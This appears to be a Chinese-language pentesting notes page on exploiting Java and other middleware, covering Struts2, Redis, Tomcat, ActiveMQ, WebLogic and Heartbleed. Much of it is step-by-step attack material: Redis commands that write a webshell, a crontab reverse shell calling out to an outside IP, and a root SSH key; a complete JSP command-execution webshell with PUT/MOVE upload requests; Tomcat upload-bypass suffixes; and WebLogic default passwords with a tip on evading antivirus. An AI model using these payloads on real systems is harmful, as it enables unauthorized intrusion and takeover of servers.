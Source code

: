 # Java平台中间件漏洞

## Struts2漏洞
Struts是Apache基金会Jakarta项目组的一个开源项目，Struts通过采用Java Servlet/JSP技术，实现了基于Java EE Web应用的Model-View-Controller（MVC）设计模式的应用框架，是MVC经典设计模式中的一个经典产品。目前，Struts广泛应用于大型互联网企业、政府、金融机构等网站建设，并作为网站开发的底层模板使用，是应用最广泛的Web应用框架之一。
**漏洞原理**
S2-051漏洞：REST插件使用了过时的XStream库，该库允许使用特殊构建的XML负载的恶意请求执行DoS攻击。
S2-052漏洞：Struts2 REST插件的XStream组件存在反序列化漏洞，使用XStream组件对XML格式的数据包进行反序列化操作时，未对数据内容进行有效验证，存在安全隐患，可被远程攻击。
S2-053漏洞：Struts2在使用Freemarker模板引擎的时候，同时允许解析OGNL表达式。导致用户输入的数据本身不会被OGNL解析，但由于被Freemarker解析一次后变成了一个OGNL表达式，被OGNL解析第二次，导致任意命令执行漏洞。
**漏洞挖掘**
（1）工具爬行
（2）找到存在漏洞地址例如：后缀：xxx.do，或者是 xxx.action
（3）用相关工具进行测试即可
*struts2中间件一般搭建在tomcat中，是以管理员身份运行的*


## Redis漏洞
Redis是一个开源的使用ANSI C语言编写、支持网络、可基于内存亦可持久化的日志型、Key-Value数据库，并提供多种语言的API。
**漏洞原理**
Redis 默认情况下，会绑定在 0.0.0.0:6379，，如果没有进行采用相关的策略，比如添加防火墙规则避免其他非信任来源 ip 访问等，这样将会将 Redis 服务暴露到公网上，如果在没有设置密码认证（一般为空）的情况下，会导致任意用户在可以访问目标服务器的情况下未授权访问 Redis 以及读取 Redis 的数据。攻击者在未授权访问 Redis 的情况下，利用 Redis 自身的提供的config 命令，可以进行写文件操作，攻击者可以成功将自己的ssh公钥写入目标服务器的 `/root/.ssh` 文件夹的`authotrized_keys` 文件中，进而可以使用对应私钥直接使用ssh服务登录目标服务器。
**漏洞挖掘**
redis绑定在 `0.0.0.0:6379`，且没有进行添加防火墙规则避免其他非信任来源 ip 访问等相关安全策略，直接暴露在公网；
没有设置密码认证（一般为空），可以免密码远程登录redis服务。
**Redis漏洞利用**
一旦控制 redis 后，优先想到的是写 webshell，容错性是它最大优势。假定目标是 PHP 环境、web 的根目录为/var/www/html，按前面步骤尝试写个普通 PHP 脚本看下是否能成功解析
`redis-cli -p 6379 -h 192.168.230.128`     远程连接redis
`192.168.230.128:6379> CONFIG SET dbfilename phpinfo.php`
`192.168.230.128:6379> CONFIG SET dir "/var/www/html"`
`192.168.230.128:6379> CONFIG SET rdbcompression no`
`192.168.230.128:6379> SET phpinfo"\n\n <?php phpinfo(); ?> \n\n" NX`
`192.168.230.128:6379> save`
将[[ReverseShell|反弹 shell 脚本]]写入/etc/crontab
`set 1 "\n\n\n\n* * * * * root bash -i >& /dev/tcp/192.168.8.124/1122 0>&1\n\n\n\n"`
`config set dir /etc/`
`config set dbfilename crontab`
`save`
利用MSF 破解Redis弱口令导入ssh公钥链接
`auxiliary/scanner/redis/file_upload`   该exp功能为上传本地的文件到目标服务器。
`auxiliary/scanner/redis/redis_login `  该exp功能是对redis的密码进行枚举，亲测速度很快。
`auxiliary/scanner/redis/redis_server `  该exp功能是验证枚举或者其他手段得到的redis密码是否正确，该功能会执行一个info命令并返回执行结果。
上传文件ssh密钥
`auxiliary/scanner/redis/file_upload`  上传文件模块
`ssh-keygen -t rsa`
`cd /root/.ssh/`
`cp id_rsa.pub  authorized_keys`
`vi authorized_keys`
在文件内容得前面和后面都加上\n\n\n
为了能正常上传测试，在目标机器上创建/root/.ssh 目录
`mkdir /root/.ssh`
`ssh -i id_rsa root@192.168.230.128`


## tomcat远程命令执行漏洞(CVE-2017-12615)影响范围Apache Tomcat 7.0.0 – 7.0.81
**漏洞验证**
利用PUT方法上传构造好的shell
在构造上传方法时有三种
`PUT /test.jsp%20`
`PUT /test.jsp/`
`PUT /test.jsp:DATA`
通过构造特殊的后缀来绕过，Tomcat的检测，将jsp的shell上传到服务器中。
利用上传的shell来进行命令执行
`http://192.168.230.131:8080/test.jsp?cmd=ipconfig`


## Apache ActiveMQ Fileserver远程代码执行漏洞
**漏洞挖掘**
扫端口的时候遇到8161端口，输入admin/admin
通过put上去一句话然后move移动到admin目录即可拿shell
**漏洞利用**
获取物理路径
`PUT /fileserver/%20/%20 HTTP/1.1`
PUT 一个 Jsp 的 Webshell 到 fileserver 目录
`PUT /fileserver/1.jsp HTTP/1.1 `
`<%@ page import="java.io.*"%>`
`<% out.print("Hello</br>");String strcmd = request.getParameter("cmd");String line =null;Process p=Runtime.getRuntime().exec(strcmd);InputStream is = p.getInputStream();BufferedReader br = new BufferedReader(new InputStreamReader(is));while((line =br.readLine())!=null){out.print(line+"<br>");}%>`
利用 MOVE 方法将 Webshell 移入 admin/ 目录
`MOVE /fileserver/1.jsp  HTTP/1.1`
`Destination:file://C:\activemq\webapps\admin\11.jsp`


## weblogic攻击
**漏洞挖掘**
批量扫描WebLogic缺省的WEB管理端口（http为7001，https为7002），开放这两个端口的一般都是安装有WebLogic的主机。
Google搜索关键字“WebLogic Server Administration Console inurl:console”，URL后面是console结尾的，一般为目标。
**漏洞挖掘**
尝试弱口令登录
用户名密码均为：weblogic 
用户名密码均为：system 
用户名密码均为：portaladmin 
用户名密码均为：guest
登录后找到“mydomain”->“Deployments”->“Web Application Modules”->“Deploy new Web Application Moudule...”
再点里面的“upload your file(s)”，在跳转后的页面上传war包（war包和Tomcat弱口令利用的包一样，注意马的免杀即可）



# PHP平台中间件漏洞

## PHPstudy RCE 漏洞



# 其他中间件漏洞
## 心脏滴血漏洞
**漏洞范围**
OpenSSL1.0.1版本
**漏洞成因**
Heartbleed漏洞是由于未能在memcpy()调用受害用户输入内容作为长度参数之前正确进行边界检查。攻击者可以追踪OpenSSL所分配的64KB缓存、将超出必要范围的字节信息复制到缓存当中再返回缓存内容，这样一来受害者的内存内容就会以每次64KB的速度进行泄露。
